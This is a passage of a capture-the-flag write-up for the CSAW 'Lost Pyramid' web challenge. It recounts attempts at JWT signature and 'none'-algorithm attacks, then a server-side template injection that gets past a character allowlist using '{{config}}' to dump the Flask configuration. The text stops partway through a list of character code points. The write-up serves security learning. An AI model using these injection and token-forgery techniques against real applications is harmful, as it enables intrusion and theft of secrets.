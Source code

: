 {% endcode %}

We get an `invalid access` error due to the mismatched signature. I also tried the "none" algorithm attack but had the same issue.

Checking a different endpoint; https://lost-pyramid.ctf.csaw.io/scarab_room, it seems to be vulnerable to SSTI, but we have a filter.

{% code overflow="wrap" %}

```python
kings_safelist = ['{','}', '𓁹', '𓆣','𓀀', '𓀁', '𓀂', '𓀃', '𓀄', '𓀅', '𓀆', '𓀇', '𓀈', '𓀉', '𓀊', '𓀐', '𓀑', '𓀒', '𓀓', '𓀔', '𓀕', '𓀖', '𓀗', '𓀘', '𓀙', '𓀚', '𓀛', '𓀜', '𓀝', '𓀞', '𓀟',
'𓀠', '𓀡', '𓀢', '𓀣', '𓀤', '𓀥', '𓀦', '𓀧', '𓀨', '𓀩', '𓀪', '𓀫', '𓀬', '𓀭', '𓀮', '𓀯',
'𓀰', '𓀱', '𓀲', '𓀳', '𓀴', '𓀵', '𓀶', '𓀷', '𓀸', '𓀹', '𓀺', '𓀻']

name = ''.join([char for char in name if char.isalnum() or char in kings_safelist])
```

{% endcode %}

We can use curly braces and alphanumeric characters, e.g. `{{config}}`.

{% code overflow="wrap" %}

```json
{'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}
```

{% endcode %}

Tried to check `{{settings}}` as well, but no output.

Converting the filter list to decimals, we'll see the size difference of the characters.

{% code overflow="wrap" %}

```json
{
    "{": 123,
    "}": 125,
    "𓁹": 77945,
    "𓆣": 78243,
    "𓀀": 77824,
    "𓀁": 77825,
    "𓀂": 77826,
    "𓀃": 77827,
    "𓀄": 77828,
    "𓀅": 77829,
    "𓀆": 77830,
    "𓀇": 77831,
    "𓀈": 77832,
    "𓀉": 77833,
    "𓀊": 77834,
    "𓀐": 77840,
    "𓀑": 77841,
    "𓀒": 77842,
    "𓀓": 77843,
    "𓀔": 77844,
    "𓀕": 77845,
    "𓀖": 77846,
    "𓀗": 77847,
    "𓀘": 77848,
    "𓀙": 77849,
```